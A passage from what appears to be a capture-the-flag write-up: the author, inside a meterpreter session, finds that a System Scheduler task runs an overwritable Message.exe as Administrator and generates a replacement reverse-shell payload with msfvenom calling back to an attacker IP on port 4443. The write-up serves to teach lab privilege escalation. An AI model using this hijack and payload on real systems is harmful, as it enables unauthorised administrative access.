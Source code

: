 ```
10/02/20 15:06:49,Starting System Scheduler SERVICE (SYSTEM)
10/02/20 15:10:59,Stopping System Scheduler SERVICE. (SYSTEM)
11/18/20 14:11:57,Starting System Scheduler SERVICE (SYSTEM)
```

I then looked under the `Events` directory where I found a log file that indicated the `Message.exe` binary was executed approximately every 30 seconds as the administrative user. This binary was overwritable and appeared to be a perfect vector to attack for an administrative user.

```
meterpreter > cd Events 
meterpreter > ls
Listing: c:\Program Files (x86)\SystemScheduler\Events
======================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1926   fil   2019-08-04 22:05:19 +0000  20198415519.INI
100666/rw-rw-rw-  24441  fil   2019-08-04 22:06:01 +0000  20198415519.INI_LOG.txt
100666/rw-rw-rw-  290    fil   2020-10-02 21:50:12 +0000  2020102145012.INI
100666/rw-rw-rw-  186    fil   2020-11-18 22:12:31 +0000  Administrator.flg
100666/rw-rw-rw-  182    fil   2020-11-18 22:11:57 +0000  SYSTEM_svc.flg
100666/rw-rw-rw-  0      fil   2020-11-18 22:12:31 +0000  Scheduler.flg
100666/rw-rw-rw-  449    fil   2019-08-04 11:36:53 +0000  SessionInfo.flg
100666/rw-rw-rw-  0      fil   2020-11-18 22:11:57 +0000  service.flg

meterpreter > cat 20198415519.INI_LOG.txt
...
11/18/20 14:58:00,Event Started Ok, (Administrator)
11/18/20 14:58:33,Process Ended. PID:1976,ExitCode:4,Message.exe (Administrator)
11/18/20 14:59:01,Event Started Ok, (Administrator)
11/18/20 14:59:34,Process Ended. PID:2820,ExitCode:4,Message.exe (Administrator)
11/18/20 15:00:01,Event Started Ok, (Administrator)
11/18/20 15:00:33,Process Ended. PID:980,ExitCode:4,Message.exe (Administrator)
11/18/20 15:01:01,Event Started Ok, (Administrator)
11/18/20 15:01:33,Process Ended. PID:1340,ExitCode:4,Message.exe (Administrator)
11/18/20 15:02:01,Event Started Ok, (Administrator)
```

I generated a new binary called Message.exe that pointed at port 4443, started a second listener on this port

```                                                   
root@kali:~/ctf/transfer# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.7.59 LPORT=4443 -f exe -o Message.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload                                                                                                            
No encoder specified, outputting raw payload                                                                                                                          
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: Message.exe%
```
